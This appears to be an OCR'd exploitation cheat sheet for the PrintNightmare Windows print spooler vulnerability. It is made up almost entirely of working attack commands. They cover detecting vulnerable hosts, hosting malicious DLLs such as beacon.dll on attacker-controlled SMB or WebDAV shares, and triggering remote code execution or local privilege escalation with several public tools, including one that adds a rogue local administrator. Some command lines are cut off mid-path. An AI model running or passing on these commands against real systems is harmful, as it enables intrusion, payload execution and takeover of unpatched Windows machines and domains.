 # Print Nightmare CVE-2021-1675 / CVE-2021-34527

### The DLL will be stored in C:\Windows\System32\spool\drivers\x64\3\ . The exploit will execute the DLL either from the local filesystem or a remote share.

## Requirements:

 - Spooler Service enabled (MANDATORY)

 - Server with patches < June 2021

 - DC with Pre Windows 2000 Compatiblity group

 - Server with registry key HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall = (DWORD) 1

 - Server with registry key HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA = (DWORD) 0

## Detect the vulnerability:

#### 1) Impacket rpcdump

    python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'

#### 2) It Was All A Dream (Github repo: https://github.com/byt3bl33d3r/ItWasAllADream)

    git clone https://github.com/byt3bl33d3r/ItWasAllADream

    cd ItWasAllADream && poetry install && poetry shell

    itwasalladream -u user -p Password123 -d domain 10.10.10.10/24

### OR

    docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10

## Payload Hosting:

#### 1) The payload can be hosted on Impacket SMB Server since PR #1109:

    python3 ./smbserver.py share /tmp/smb/

#### 2) Using Invoke-BuildAnonymousSMBServer (Admin rights required on host):

    Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer

#### 3) Using WebDav with SharpWebServer (Doesn't require admin rights):

    SharpWebServer.exe port=8888 dir=c:\users\public verbose=true

### When using WebDav instead of SMB, you must add @[PORT] to the hostname in the URI, e.g.: \\172.16.1.5@8888\Downloads\beacon.dll WebDav client must be activated on exploited target. By default it is not activated on Windows workstations (you have to net start webclient ) and it's not installed on servers. Here is how to detect activated webdav:

    cme smb -u user -p password -d domain.local -M webdav [TARGET]

## Trigger the exploit

#### 1) SharpNightmare

### Requires a modified Impacket: https://github.com/cube0x0/impacket

    python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\
 
    python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

### Local Privilege Escalation (LPE)

    SharpPrintNightmare.exe C:\addCube.dll

### RCE using existing context

    SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\
 
### RCE using runas /netonly

    SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32

#### 2) Invoke-Nightmare

### LPE only (ps1 + dll)

    Import-Module .\cve-2021-1675.ps1

    Invoke-Nightmare (add user 'adm1n'/'P@ssw0rd' in the local admin group by default)

    Invoke-Nightmare -DriverName "DRIVER_NAME" -NewUser "NEW_USER" -NewPassword "NEW_PASS"

    Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

#### 3) Mimikatz v2.2.0-20210709+

### LPE 

    misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll

### RCE

    misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:DOMAIN

#### 4) PrintNightmare by @outflanknl

    PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain]

## Debug Information

### Error --> Message --> Debug

 - 0x5 --> rpc_s_access_denied --> Permissions on the file in the SMB share

 - 0x525 --> ERROR_NO_SUCH_USER --> The specified account does not exist

 - 0x180 --> unknown error code --> Share is not SMB2

